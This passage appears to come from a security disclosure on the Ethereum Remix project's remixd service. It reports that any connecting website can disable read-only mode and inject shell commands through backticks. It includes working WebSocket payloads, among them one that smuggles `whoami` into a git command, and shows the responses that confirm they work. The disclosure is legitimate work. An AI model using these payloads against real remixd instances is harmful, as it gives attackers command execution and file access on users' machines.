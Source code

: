 ```json
      "isDirectory": false
    }
  }
}
```

and yes, we've remotely disabled `readOnly` mode

```js
s.send(JSON.stringify({"id":3,"action":"request","key":"folderIsReadOnly","payload":[],"requestInfo":{"from":"manager","path":"remixd"},"name":"remixd"}))
```

```json
{"action":"response","name":"remixd","key":"folderIsReadOnly","id":3,"payload":false}
```

none of the changes yielded any clues in the console. The website allowed to communicate with `remixd` (plugins, etc.) practically gets full access to the users' file-system! (critical!)

### Arbitrary shell command injection (critical)

The origin can execute arbitrary shell commands on behalf of the user running remixd.

The filtering for commands can easily be bypassed by embedding subcommendas with backticks.

![image](https://user-images.githubusercontent.com/2865694/112726399-7da94180-8f1d-11eb-898f-58e71eb2e439.png)

relevant code:

Note that similar to issue #3 any method of this class (and pot. inherited functions as well) can be invoked

https://github.com/ethereum/remix-project/blob/425f6101bbcf3ebfc3ee090c995858a3f984a123/libs/remixd/src/services/gitClient.ts#L45-L50

In this example we execute the subcommand `whoami` via remixd. We even get to see the response as part of the normal `git` error message:

```js 
let s = connect("ws://localhost:65521")
s.send(JSON.stringify({"id":3,"action":"request","key":"execute","payload":["git `whoami`"],"requestInfo":{"from":"manager","path":"remixd"},"name":"remixd"}))
```

returns (remixd actually executed `git tintin` where `tintin` was the response to `whoami`):

```json
{
  "action": "response",
  "name": "remixd",
  "key": "execute",
  "id": 3,
  "error": "git: 'tintin' is not a git command. See 'git --help'.\n"
}
```

This feature is basically an unrestricted remote shell that can easily be misused by a malicious origin (remix website or plugin) to execute a reverse-shell to gain full access to the users' system. Note that none of the commands in the `gitClient` are protected by the `sharedFolder` or `readOnly` restriction. There is no security guarantee for this service.
